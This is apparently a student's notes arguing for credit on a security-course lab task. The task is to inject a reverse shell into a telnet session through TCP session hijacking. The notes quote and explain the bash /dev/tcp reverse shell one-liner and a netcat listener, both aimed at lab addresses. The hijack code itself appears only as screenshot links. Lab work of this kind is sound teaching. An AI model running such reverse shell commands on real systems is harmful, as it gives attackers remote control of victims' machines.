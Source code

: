 ## Question

Q4 Task 4: Creating Reverse Shell using TCP Session Hijacking
30 Points
Grading comment:

When attackers are able to inject a command to the victim’s machine using TCP session hijacking, they are not interested in running one simple command on the victim machine; they are interested in running many commands. Obviously, running these commands all through TCP session hijacking is inconvenient. What attackers want to achieve is to use the attack to set up a back door, so they can use this back door to conveniently conduct further damages.

A typical way to set up back doors is to run a reverse shell from the victim machine to give the attack the shell access to the victim machine. Reverse shell is a shell process running on a remote machine, connecting back to the attacker’s machine. This gives an attacker a convenient way to access a remote machine once it has been compromised.

In the following, we will show how we can set up a reverse shell and how we can directly run a command on the victim machine (i.e. the server machine). In the TCP session hijacking attack, attackers cannot directly run a command on the victim machine, so their jobs is to run a reverse-shell command through the session hijacking attack. In this task, students need to demonstrate that they can achieve this goal. 

To have a bash shell on a remote machine and connect back to the attacker’s machine, the attacker needs a process waiting for some connection on a given port. In this example, we will use netcat. This program allows us to specify a port number and can listen for a connection on that port. In the following demo, we show two windows, each one is from a different machine. The top window is the attack machine 10.9.0.1, which runs netcat (nc for short), listening on port 9090. The bottom window is the victim machine 10.9.0.5, and we type the reverse shell command. As soon as the reverse shell gets executed, the top window indicates that we get a shell. This is a reverse shell, i.e., it runs on 10.9.0.5

We provide a brief description on the reverse shell command in the following.

    • "/bin/bash -i": i stands for interactive, meaning that the shell must be interactive (must provide a shell prompt)

    "> /dev/tcp/10.9.0.1/9090": This causes the output (stdout) of the shell to be redirected
    to the tcp connection to 10.9.0.1’s port 9090. The output stdout is represented by file descriptor number 1.

    "0<&1": File descriptor 0 represents the standard input (stdin). This causes the stdin for the shell to be obtained from the tcp connection.
    "2>&1": File descriptor 2 represents standard error stderr. This causes the error output to be redirected to the tcp connection.

In summary, "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1" starts a bash shell,
with its input coming from a tcp connection, and its standard and error outputs being redirected to the same tcp connection. 

In the demo shown above, when the bash shell command is executed on 10.9.0.5, it connects back to the netcat process started on 10.9.0.1. This is confirmed via the "Connection received on 10.9.0.5" message displayed by netcat.

The description above shows how you can set up a reverse shell if you have the access to the target machine, which is the telnet server in our setup, but in this task, you do not have such an access. Your task is to launch a TCP session hijacking attack on an existing telnet session between a user and the target server. You need to inject your malicious command into the hijacked session, so you can get a reverse shell on the target server.

- Please show your code (hardcoded values)
- show the attack in progress
- Wireshark frame showing the SEQ/ACK number that you copied from
- Wireshark frame showing the inject code, and showing the SEQ and ACK number
- Telnet connection failing
- netcat output
- File created on the victim's host using netcat (or some other attack)

## Argument

The right panel of these screenshots displays the Python hijacking script.
The code screenshot I submitted:
![[z/z ScreenShots/Screenshot 2025-06-04 at 1.48.49 PM.png]]

From the same screenshot we can see what docker containers we have, namely:
![[z/z ScreenShots/Screenshot 2025-06-04 at 1.49.28 PM.png| 400]]

Even though it is hard to follow, the collective set of screenshots illustrates the stages of the attack.

Tis demonstrates the initial setup: 
![[z/z ScreenShots/Screenshot 2025-06-04 at 2.48.01 PM.png]]
where, the netcat listener (netcat -nlvp 9090) is started on the attacker machine (10.9.0.1) in the bottom-left terminal, and a Telnet session from seed@VM to 10.9.0.6 is active in the middle-left terminal.
![[z/z ScreenShots/Screenshot 2025-06-04 at 2.44.41 PM.png]]

Then we see the outcome of the hijack script:
![[z/z ScreenShots/Screenshot 2025-06-04 at 2.52.43 PM 1.png]]

And as we saw before, 51 is our victim and we did get a reverse shell onto them from our seed attacker!!

Finally, in our Wireshark, we see the successful establishment of the reverse shell and that the packet was successfully crafted and sent with the correct SEQ/ACK numbers.
![[z/z ScreenShots/Screenshot_2025-03-10_at_8.46.15_PM.jpg]]